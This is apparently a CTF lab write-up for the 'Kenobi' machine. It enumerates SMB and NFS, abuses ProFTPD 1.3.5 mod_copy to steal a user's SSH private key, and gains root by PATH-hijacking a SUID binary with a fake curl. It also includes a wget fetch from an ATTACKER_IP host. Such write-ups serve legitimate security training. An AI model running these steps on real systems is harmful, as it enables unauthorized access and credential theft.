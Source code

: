 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  | 10.10.243.180 |  |

---

We start things off with a basic `nmap` scan on the server. We can run 2 scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that 7 ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 & 445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba (SMB) shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, 3 shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`:

```
smbclient //10.10.243.180/SHARE_NAME
```

I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to supply a password.

Once in, we can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a single text file: **log.txt**

**log.txt** was a ProFTPD configuration file which gave us a lot of interesting and potentially useful information about the server. I took note of the file and moved on first.

Next, let's tackle port **111**, which hosts **RPC**. 

---

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

---

In our case, port 111 gives us access to the **Network File System (NFS)** protocol, which runs using RPC. We can use `nmap` to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's move on to the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To do so, we can use `nc` to connect to the FTP server and find out the version from the response banner:

```
nc 10.10.243.180 21
```

The response tells us that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

Remember the **log.txt** file from earlier? It actually reveals that the **private SSH key** of the user, kenobi, can be found in /home/kenobi/.ssh/id_rsa. Since we know that we can mount onto and access /var on the target machine, we can copy kenobi's private key over to /var and obtain it there.

With the private key, we'll then be able to access the machine via SSH as the user kenobi!

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home directory to the **/var/tmp** directory on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory called 'kenobiNFS' in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the /var/tmp directory on the target machine by visting /mnt/kenobiNFS/ on our local machine:

![screenshot7](../assets/images/kenobi/screenshot7.png)

We can then obtain the private key file!

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions of the key are set to be **read and write by owner only**. We do this with `chmod`:

```
chmod 600 id_rsa  // 400 works too
```

With the permissions set, let's now ssh into the machine as kenobi:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's home directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. 

To find these SUID-bit set binaries, the room taught me to use the `find` command:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) instead.

To transfer LinPEAS over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the linpeas.sh script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port 8000. 

Next, I used `wget` on the target machine to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting binary that had its SUID-bit set: **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running this binary, we are presented with some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID-bit being set).

Using the `strings` command, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. using `curl` instead of `/usr/bin/curl`).

Hence, we can manipulate our **PATH** to exploit this and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is fully accessible by setting its permissions to be read-write-executable by all users:

```
chmod 777 curl
```

Next, we put its file location into our **PATH**. In my case, since I created the `curl` file in /tmp, I'll add that directory into my PATH:

```
export PATH=/tmp:$PATH
```

Now, when /usr/bin/menu is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in /tmp first and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from /root.





